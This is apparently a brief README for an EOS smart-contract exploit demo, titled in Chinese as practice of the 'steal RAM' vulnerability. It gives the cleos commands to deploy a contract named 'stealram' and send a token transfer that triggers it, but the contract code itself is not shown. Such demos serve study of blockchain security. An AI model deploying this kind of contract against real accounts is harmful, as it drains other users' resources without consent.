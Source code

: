# Introduction(简介)
偷窃RAM漏洞实践

# Operation(操作)
```
cleos set contract youraccount stealram
//下面的EOS转账会调用youraccount这个智能合约的transfer方法
cleos push action eosio.token transfer '["testaccount", "youraccount", "3.0000 EOS", "itleakstoken"]' -p testaccount
```
